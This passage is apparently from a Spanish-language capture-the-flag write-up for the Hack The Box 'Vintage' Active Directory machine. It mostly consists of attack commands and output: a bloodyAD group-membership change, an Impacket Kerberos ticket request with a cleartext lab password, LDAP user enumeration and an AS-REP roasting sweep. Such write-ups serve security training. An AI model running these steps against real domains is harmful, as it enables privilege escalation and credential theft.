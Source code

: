 bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS

sacamos el tiquet de nuevo
python3 getTGT.py vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb                                     
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in P.Rosa.ccache

export KRB5CCNAME=P.Rosa.ccache

Buscamos usuarios


ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt 

cat usernames.txt
Administrator
Guest
DC01$
krbtgt
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm

Luego use impact-GetNPUsers para enumerar los usuarios que no requieren autenticación de dominio Kerberos (UF_DONT_REQUIRE_PREAUTH)

python3 GetNPUsers.py -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

/home/shat/Desktop/HTB/Vintage/venv/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
